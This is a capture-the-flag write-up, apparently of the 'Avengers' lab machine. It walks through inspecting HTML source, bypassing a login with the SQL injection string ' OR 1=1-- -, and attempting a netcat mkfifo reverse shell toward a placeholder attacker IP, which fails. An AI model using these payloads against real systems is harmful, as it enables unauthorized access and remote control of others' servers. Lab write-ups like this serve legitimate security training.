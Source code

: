 ![](/reports/Avengers/image2.png)

Clicking on this script, we get the first flag. As a habit, you should look at the html source code, as it might leak some valuable information.

Looking at the gobuster results we see that /portal is an interesting directory. Going to this page we see the following:

![](/reports/Avengers/image15.png)

Looking at the html source code (see a pattern here?) we see an interesting comment:

![](/reports/Avengers/image4.png)

SQLi stands for SQL injection and is a common problem that can have disastrous results in web servers. Thankfully, this vulnerability has been getting more publicized, and the frequency of successful attacks related to SQLi are decreasing.

Typing ‘ OR 1=1-- - in the username and password, we get in!

![](/reports/Avengers/image1.png)

So...the developer though it would be a good idea to allow users to directly interact with the server through commands? Too easy, let’s try an easy reverse shell using pentestmonkey ([http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](https://www.google.com/url?q=http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet&sa=D&source=editors&ust=1653956340026229&usg=AOvVaw0wtnc8W3CDqlI9_pZsUQ9E))

On the attacker machine:

nc -lvnp <attacker port>

On the Jarvis command line:

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <attacker ip> <attacker port> >/tmp/f

Unfortunately, when we run this we receive an error message:

![](/reports/Avengers/image16.png)

So let’s just stick with harmless commands such as ls and cd so that we look around the files of this server. Let’s see which files are in the directory we are in.

Jarvis command:

ls

Results:

create.sql

node\_modules

package-lock.json

package.json

server.js
